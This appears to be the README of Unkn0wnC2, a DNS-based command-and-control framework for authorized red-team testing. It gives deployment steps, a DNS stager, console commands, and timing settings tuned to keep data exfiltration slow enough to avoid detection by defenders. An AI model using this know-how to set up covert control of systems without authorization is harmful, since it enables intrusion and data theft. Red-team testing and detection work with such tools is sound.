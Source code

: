 # 🕵️ Unkn0wnC2

DNS-based Command & Control framework operating as an authoritative DNS server with encrypted C2 communications.


This DNS C2 implementation's strengths comes from it's malleable C2 timing. 

Many C2s can utilize DNS for covert communications, but the exfil/task timings aren't usually adjustable without changing code directly. This C2 allows you to change the timing of exfil during the build process. Keeping your exfil slow is key to staying stealthy as common C2s send outputs/exfil quickly, alerting Blue Teams on large ammounts of DNS traffic in a short period of time.

![Unkn0wnC2](assets/unkn0wnc2.png)

---

## ⚠️ Legal Disclaimer

**FOR AUTHORIZED SECURITY TESTING ONLY**

This software is provided for educational and authorized security testing purposes only. Users must:

- Obtain explicit written authorization before deployment
- Comply with all applicable local, state, and federal laws
- Use only in controlled environments with proper authorization
- Understand that unauthorized access to computer systems is illegal

**The authors and contributors are not responsible for misuse or illegal activity. Use at your own risk.**

---

## 🚀 Quick Deployment

### 1. 🌐 Domain Setup
Configure NS records at registrar:
```
ns1.yourdomain.net  →  YOUR_SERVER_IP
ns2.yourdomain.net  →  YOUR_SERVER_IP
```
Add glue records at registrar, verify: `dig @8.8.8.8 NS yourdomain.net`

### 2. 🔨 Build
```bash
# Generate unique encryption key
openssl rand -base64 32

# Edit build_config.json - set encryption_key, domain, server IPs
vim build_config.json

# Build all components with production configuration
bash build.sh
```

Output will be in `build/`

### 3. 🖥️ Deploy Server
```bash
# Copy to target server
scp build/dns-server-linux user@server:/opt/unkn0wnc2/
cd /opt/unkn0wnc2

# Run (requires root for port 53, config embedded at build time)
sudo ./dns-server-linux
```

### 4. 📡 Deploy Client
**Option A - Direct:** `./dns-client-linux`  
**Option B - Stager:** `./stager-linux-x64` (downloads client via DNS)

**Production:** Change encryption key, disable debug mode, use system DNS (stealth)

---

## 🏗️ Protocol Architecture

### Communication Flow
![Communications Flow](assets/communication_flow.png)

### 🔐 Encoding Pipeline

![Encoding Pipeline](assets/encoding_pipeline.png)

### 📨 Message Format

![Message Format](assets/message_format.png)

### 🎭 Authoritative DNS Server Logic Flow

![Authoritative DNS Server Logic Flow](assets/logic_flow.png)

### Malleable Timing (stager / client / exfil)

This project exposes several timing parameters that are intentionally malleable to tune stealth vs throughput. Defaults are set in build_config.json and in the Stager build defaults.

Key parameters and defaults (units):

- Stager
  - jitter_min_ms = 1000 (1.0 s)
  - jitter_max_ms = 2000 (2.0 s)
  - chunks_per_burst = 5
  - burst_pause_ms = 12000 (12 s)
  - retry_delay_seconds = 3
  - max_retries = 5

- Client check-in
  - sleep_min = 60 (60 s)
  - sleep_max = 120 (120 s)

- Client exfil
  - exfil_jitter_min_ms = 10000 (10 s)
  - exfil_jitter_max_ms = 30000 (30 s)
  - exfil_chunks_per_burst = 5
  - exfil_burst_pause_ms = 120000 (120 s)

How the pieces interact (approximate calculations):
- Number of bursts for N chunks: bursts = ceil(N / chunks_per_burst)
- Average jitter (ms) = (jitter_min_ms + jitter_max_ms) / 2
- Stager total time ≈ N * RTT_seconds_per_chunk + bursts * ((avg_jitter_ms + burst_pause_ms) / 1000)
  - Example (stager defaults, 100 chunks): avg_jitter = 1.5 s, burst pause = 12 s → per-burst pause ≈ 13.5 s
    - bursts = 20 → pause_time ≈ 270 s
    - transfer_time ≈ 100 s → total ≈ 370 s (~6 min 10 s)

- Exfil (client) will be significantly slower with larger jitter/pause values:
  - Example (exfil defaults, 100 chunks): avg_jitter = 20 s, burst pause = 120 s → per-burst pause ≈ 140 s
    - bursts = 20 → pause_time ≈ 2800 s (~46 min 40 s)
    - transfer_time ≈ 100 s → total ≈ 2900 s (~48 min 20 s)

### Build Output
```
build/
├── dns-server-linux
├── dns-client-linux
├── dns-client-windows.exe
└── Stager
    ├── stager-linux-x64
    └── stager-windows-x64.exe
```

---

## 🎮 C2 Console Commands

```
beacons              List all active beacons
task <id> <cmd>      Queue command for beacon
tasks                Show all tasks and status
result <task_id>     Display task output
logs                 Show log message count
status               Server status summary
clear                Clear console
exit                 Shutdown server
```

**Example Session:**
```bash
c2> beacons
ID    Hostname    Username    OS       Last Seen
a1b2  target-01   admin       Linux    2s ago

c2> task a1b2 whoami
[+] Task T1001 queued for beacon a1b2

c2> tasks
ID     Beacon  Command  Status     Created
T1001  a1b2    whoami   completed  5s ago

c2> result T1001
admin
```

---

**Version:** 0.1.0  
**License:** Use for authorized security testing only  

---


